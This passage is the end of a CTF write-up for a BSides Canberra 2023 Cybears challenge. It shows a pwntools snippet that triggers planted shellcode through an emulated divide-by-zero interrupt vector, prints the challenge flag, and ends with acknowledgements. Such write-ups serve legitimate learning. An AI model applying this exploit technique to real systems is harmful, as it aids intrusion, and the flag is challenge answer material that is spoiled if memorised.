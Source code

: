 ## Triggering the shellcode

With the IVT set, we can go somewhere else where the tape is empty and try divide and trigger the shellcode.

```py
# go anywhere except on valuable data
send_bf(b'<<<<<<<')
p.send(b'\n')
p.recvuntil(b'INPUT > ')

# get flag
p.send(b'/')
p.recvuntil(b'/')
p.send(b'\n')


while True:
    print(p.recv())
```

Eventually the flag will fly through the terminal.
`cybears{Everyone_Loves_The_EightyEightySix_DivZer0_InterruptVector}`


# Acknowledgements

Shoutout to `flk0` (`_flk_` on Discord) who wrote a fair portion of the final exploit code and also caught that we can cursor off positions which we shouldn't be able to :)

Great CTF all round from the [Cybears](https://cybears.io), **esp**ecially the badge challenges - they were all quite fun.

Always remember
![The real flags are the friends we made along the way](assets/bsidescbr23_bfbl/real-flags-meme.png)
